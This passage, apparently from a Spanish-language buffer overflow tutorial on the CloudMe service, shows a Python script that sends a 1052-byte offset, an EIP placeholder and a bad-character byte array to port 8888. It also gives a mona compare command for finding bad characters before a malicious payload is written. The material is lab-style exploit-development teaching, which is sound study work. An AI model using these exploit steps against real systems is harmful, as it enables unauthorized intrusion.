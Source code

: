     def executeExploit():
        badChars = (b"\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
        b"\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
        b"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"
        b"\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"
        b"\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"
        b"\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"
        b"\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
        b"\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0 \xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff")
        offset = 1052
        before_eip = b"A" * offset
        eip = b"B" * 4

        payload = before_eip + eip + badChars

        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect((remoteAddress, 8888))
        s.send(payload)

    if __name__ == "__main__":
        executeExploit()
    ```

1. En el Immunity debugger con mona miramos que caracteres no an sido interpretado

    ```{r, echo = FALSE, fig.cap="Buf Bad chars", out.width="90%"}
        knitr::include_graphics("images/Buff-BadChars.png")
    ```

    ```bash
    !mona compare -f C:\Users\S4vitar\Desktop\CloudMe\bytearray.txt -a 0022D470
    ```

En el caso que nos reporte **BadChars** tendriamos que quitarlos de la lista y volver a effectuar lo mismo hasta que no
tengamos mas **BadChars**. Y desde aqui nos podemos crear el script malicioso con la lista de caracteres que tenemos. En 
